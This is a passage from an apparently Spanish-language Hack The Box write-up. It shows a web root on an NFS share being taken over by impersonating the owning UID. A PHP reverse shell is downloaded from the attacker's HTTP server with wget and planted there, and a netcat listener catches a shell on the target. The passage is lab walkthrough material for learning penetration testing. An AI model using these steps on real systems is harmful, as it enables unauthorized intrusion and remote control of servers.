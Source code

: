 ``sudo passwd test``

Solo nos queda loguearnos y ver si ya podemos acceder:

~~~bash
❯ su test
Contraseña: 
┌─[test@parrot]─[/home/kaian/]
└──╼ $ls -la /mnt/html
total 52
drwxr-xr-- 5 test www-data  4096 nov 29 00:55 .
drwxr-xr-x 1 root root        16 nov 26 20:32 ..
drwxr-xr-x 2 test www-data  4096 nov 29 00:55 css
-rw-r--r-- 1 test www-data    44 oct 21 12:30 .htaccess
drwxr-xr-x 2 test www-data  4096 nov 29 00:55 images
-rw-r----- 1 test www-data 32532 nov 29 00:55 index.html
drwxr-xr-x 2 test www-data  4096 nov 29 00:55 js
~~~

Bien, ya podemos ver el contenido y... lo más importante, **escribir**. Por tanto, lo que vamos a hacer es copiar una reverse shell (usaremos como siempre la de [pentestmonkey](https://pentestmonkey.net/tools/web-shells/php-reverse-shell)) a ese directorio:

De esta forma, creamos un servidor en Python `python3 -m http.server` y la subimos:

~~~bash
┌─[test@parrot]─[/home/kaian/HTB]
└──╼ $cd /mnt/html
┌─[test@parrot]─[/mnt/html]
└──╼ $wget 10.10.14.106:8000/rsHTB.php
--2022-11-29 01:17:48--  http://10.10.14.106:8000/rsHTB.php
Conectando con 10.10.14.106:8000... conectado.
Petición HTTP enviada, esperando respuesta... 200 OK
Longitud: 5494 (5,4K) [application/octet-stream]
Grabando a: «rsHTB.php»

rsHTB.php              100%[============================>]   5,37K  --.-KB/s    en 0s      

2022-11-29 01:17:49 (535 MB/s) - «rsHTB.php» guardado [5494/5494]
~~~

Ahora nos ponemos en escucha con Netcat para recibir la shell y la invocamos desde el navegador ``http://10.10.11.191/rsHTB.php``:

~~~bash
❯ nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.10.14.106] from (UNKNOWN) [10.10.11.191] 48692
Linux squashed.htb 5.4.0-131-generic #147-Ubuntu SMP Fri Oct 14 17:07:22 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
 00:21:36 up 1 day,  1:01,  1 user,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
ross     tty7     :0               Sun23   25:01m  2:21   0.05s /usr/libexec/gnome-session-binary --systemd --session=gnome
uid=2017(alex) gid=2017(alex) groups=2017(alex)
/bin/sh: 0: can't access tty; job control turned off
~~~
